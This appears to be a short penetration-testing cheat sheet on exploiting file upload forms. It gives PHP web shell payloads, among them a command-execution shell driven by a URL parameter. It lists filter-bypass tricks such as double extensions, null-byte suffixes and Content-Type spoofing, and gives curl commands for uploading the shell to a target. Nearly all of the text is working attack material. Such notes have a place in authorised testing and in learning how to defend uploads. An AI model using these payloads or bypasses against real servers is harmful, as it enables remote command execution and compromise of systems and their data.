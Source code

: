 - Payload:
  - Test if the code was executed
    ```php
    <?php echo "UPLOAD_OK"; ?>
    ```
  - If executed,
    ```php
    <?php echo shell_exec('whoami'); ?>
    <?php system($_GET['cmd']);?>
    ```
- Bypass techniques:
  - Change `shell.php` to `shell.php.jpg`, `shell.png.php`,`shell.php5` or `shell.png.php5`
  - Content-Type spoofing: `curl -F "file=@shell.php;type=image/jpeg"`
    > Change "file" if needed
  - NULL BYTE and Weird suffixes: `shell.php;.jpg`, `shell.php%20`, `shell.php%00.jpg`, `shell.php%0a.png`, `shell.php%0a`, `shell.php%0d%0a`, `shell.php/`, `shell.php.|`, `shell.php....`, `shell.pHp5....`, `shell.php#.png`, `shell.php\x00`, `shell.phpJunk123png`
- curl example:
  ```bash
  curl -i -X POST -F "file=@shell.php;type=application/x-php" https://target/upload
  curl -i -X POST -F "file=@shell.php;type=image/jpeg" https://target/upload
  # Change "file" if needed.
  ```

